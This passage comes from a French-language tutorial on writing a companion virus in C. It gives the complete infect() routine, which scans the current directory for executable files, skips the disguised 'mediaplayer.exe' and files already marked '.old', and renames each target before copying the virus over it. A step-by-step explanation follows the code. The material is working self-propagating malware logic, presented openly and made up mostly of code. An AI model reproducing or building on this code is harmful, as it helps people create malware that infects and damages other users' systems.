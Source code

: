 5. **Fermeture du répertoire :**
   - Une fois tous les fichiers du répertoire parcourus, la fonction `closedir()` est utilisée pour fermer le descripteur de fichier du répertoire.

6. **Retour du résultat :**
   - Si aucun fichier ".old" correspondant n'est trouvé, la fonction retourne -1 pour indiquer que le fichier n'existe pas.

Maintenant que nous avons toutes les fonctions nécessaires pour rechercher les fichiers cibles et vérifier s'ils sont déjà infectés, nous pouvons passer à l'étape suivante : la fonction de reproduction (ou d'infection) du virus compagnon.

```c
void infect() {
    DIR *d;
    struct dirent *dir;
    d = opendir(".");
    if (d) {
        while ((dir = readdir(d)) != NULL) {
            struct stat sb;
            if (strcmp(dir->d_name, "mediaplayer.exe") != 0 && strcmp(dir->d_name, ".") != 0 && strcmp(dir->d_name, "..") != 0 && strstr(dir->d_name, ".old") == NULL) {
                if (!stat(dir->d_name, &sb)) {
                    if ((sb.st_mode & S_IXUSR) && S_ISREG(sb.st_mode)) {
                        printf("Infection en cours...\n");
                        printf("%s\n", dir->d_name);
                        char *fichier = (char *)dir->d_name;
                        if (fichier_old_existe(fichier) == -1) {
                            renommer_fichier(fichier);
                            copier_virus(fichier);
                        } else {
                            printf("Fichier %s deja cible\n", fichier);
                        }
                    }
                }
            }
        }
        closedir(d);
    }
}
```

Detaillons pas à pas le code ci-dessus:
1. **Ouverture du répertoire courant :**
   - La fonction `opendir()` est utilisée pour ouvrir le répertoire courant, et le descripteur de fichier correspondant est stocké dans la variable `d`.

2. **Parcours des fichiers :**
   - Une boucle `while` est utilisée pour parcourir tous les fichiers du répertoire.
   - À chaque itération de la boucle, la fonction `readdir()` est utilisée pour lire un fichier du répertoire. Les détails du fichier sont stockés dans la structure `dirent` pointée par `dir`.

3. **Vérification du nom de fichier et des permissions :**
   - Le nom du fichier est comparé avec trois noms spécifiques : "mediaplayer.exe", ".", et "..", afin de les exclure de l'infection.
   - De plus, le fichier est vérifié pour s'assurer qu'il n'a pas l'extension ".old", ce qui indique qu'il a déjà été infecté auparavant.
   - Les permissions du fichier sont également vérifiées pour s'assurer qu'il s'agit d'un fichier exécutable.
